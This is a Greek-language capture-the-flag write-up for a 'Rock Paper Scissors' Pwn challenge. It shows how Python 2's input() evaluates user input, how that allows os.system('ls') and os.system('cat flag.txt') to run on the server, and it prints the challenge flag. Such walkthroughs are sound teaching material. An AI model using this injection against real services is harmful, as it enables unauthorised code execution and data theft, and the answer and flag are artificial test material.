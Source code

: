 # Πέτρα Ψαλίδι Χαρτί

| Δοκιμασία | Πέτρα Ψαλίδι Χαρτί |
| :------- | :----- |
| Δυσκολία | Μέτρια |
| Κατηγορία | Pwn |
| Λύσεις | 10 |
| Πόντοι | 499 |

## Επισκόπηση Δοκιμασίας

Μας δίνεται ένας διακομιστής στο οποίο μπορούμε να συνδεθούμε με την χρήση ενός προγράμματος για TCP sockets σαν το netcat (π.χ. `nc <ip> <port>`).

Παράλληλα, μας δίνεται και ο κώδικας Python του παιχνιδιού που τρέχει στον διακομιστή.

Αν συνδεθούμε στον διακομιστή, ξεκινάει ένα παιχνίδι Πέτρα-Ψαλίδι-Χαρτί το οποίο μπορούμε να παίξουμε εναντίον του υπολογιστή.
```
WELCOME TO ROCK-PAPER-SCISSORS GAME
RUNNING ON PYTHON 2.7.18!
THE FIRST ONE TO WIN 3 ROUND WINS!

-= Round 1 =-
Choose:
1. Rock
2. Paper
3. Scissors
> 1
You chose: Rock
Bot chose: Paper
You lost the round!
Score: Bot 1 - 0 You

-= Round 2 =-
Choose:
1. Rock
2. Paper
3. Scissors
> 3
You chose: Scissors
Bot chose: Paper
You won the round!
Score: Bot 1 - 1 You

-= Round 3 =-
Choose:
1. Rock
2. Paper
3. Scissors
> 1
You chose: Rock
Bot chose: Scissors
You won the round!
Score: Bot 1 - 2 You

-= Round 4 =-
Choose:
1. Rock
2. Paper
3. Scissors
> 2
You chose: Paper
Bot chose: Paper
It's a tie!
Score: Bot 1 - 2 You

-= Round 5 =-
Choose:
1. Rock
2. Paper
3. Scissors
> 2
You chose: Paper
Bot chose: Rock
You won the round!
Score: Bot 1 - 3 You

YOU WON 3 ROUNDS!
YOU WON THE GAME!
BYE!
```

## Επίλυση

Παρατηρούμε πως μόλις συνδεθούμε στον διακομιστή εκτυπώνετε το μήνυμα `RUNNING ON PYTHON 2.7.18!` το οποίο μας ενημερώνει πως ο κώδικας τρέχει σε Python 2.7, και όχι στην καινούρια Python 3.x.

Διαβάζοντας τον κώδικα που τρέχει στον διακομιστή και δίνοντας ιδιαίτερη προσοχή στα κομμάτια του κώδικα που μπορούμε να επηρεάσουμε (π.χ. όταν μας ζητείτε να δώσουμε κάποια είσοδο στο πρόγραμμα), παρατηρούμε πως ο κώδικας κάνει χρήση της Python συνάρτησης `input` για να πάρει την είσοδο του χρήστη από την κονσόλα. Η χρήση αυτής της συνάρτησης όμως σε Python 2.x δημιουργεί προβλήματα ασφαλείας αφού δίνει την δυνατότητα στον χρήστη να εκτελέσει μη έμπιστο κώδικα Python.

Για να δείξουμε ένα παράδειγμα του προβλήματος, μπορούμε όταν μας ζητηθεί η επιλογή μας να δώσουμε σαν είσοδο μια πράξη όπως `1+1` και θα δούμε πως το παιχνίδι νομίζει πως επιλέξαμε Χαρτί (2. Paper) αφού πρώτα εκτέλεσε την πράξη μας και πήρε σαν αποτέλεσμα `2`:

```
WELCOME TO ROCK-PAPER-SCISSORS GAME
RUNNING ON PYTHON 2.7.18!
THE FIRST ONE TO WIN 3 ROUND WINS!

-= Round 1 =-
Choose:
1. Rock
2. Paper
3. Scissors
> 1+1
You chose: Paper
Bot chose: Paper
It's a tie!
Score: Bot 0 - 0 You
```

Μπορούμε λοιπόν να δοκιμάσουμε να τελέσουμε κώδικα Python και να πάρουμε πρόσβαση στον server. Αρχικά μπορούμε να φορτώσουμε βιβλιοθήκες που χρειαζόμαστε και στην συνέχεια να καλέσουμε συναρτήσεις. Έτσι, εκτελούμε με την σειρά, πρώτα `import os` για να φορτώσουμε την βιβλιοθήκη `os` και στην συνέχεια εκτελούμε `os.system('ls')` (ή `os.system('dir')` αν ο διακομιστής τρέχει Windows αντί για Linux) με σκοπό να δούμε τα αρχεία του διακομιστή:

```
WELCOME TO ROCK-PAPER-SCISSORS GAME
RUNNING ON PYTHON 2.7.18!
THE FIRST ONE TO WIN 3 ROUND WINS!

-= Round 1 =-
Choose:
1. Rock
2. Paper
3. Scissors
> import os
Invalid input! Try again.
Choose:
1. Rock
2. Paper
3. Scissors
> os.system('ls')
flag.txt  service.py
Choose:
1. Rock
2. Paper
3. Scissors
>
```

Βλέπουμε πως στην οθόνη εκτυπώθηκε `flag.txt  service.py`, και αντιλαμβανόμαστε πως ο διακομιστής περιέχει ένα αρχείο με όνομα `flag.txt` το οποίο μπορούμε να προσπαθήσουμε να διαβάσουμε (με την χρήση της εντολής `cat flag.txt` για διακομιστές που τρέχουν Linux ή την εντολή `type flag.txt` για διακομιστές που τρέχουν Windows):

```
Choose:
1. Rock
2. Paper
3. Scissors
> os.system('cat flag.txt')
FLAG{I-n3eD-t0-upD4tE-mY-Sy5teM-r1ghT-nOw}
```

## Σημαία

```
FLAG{I-n3eD-t0-upD4tE-mY-Sy5teM-r1ghT-nOw}
```
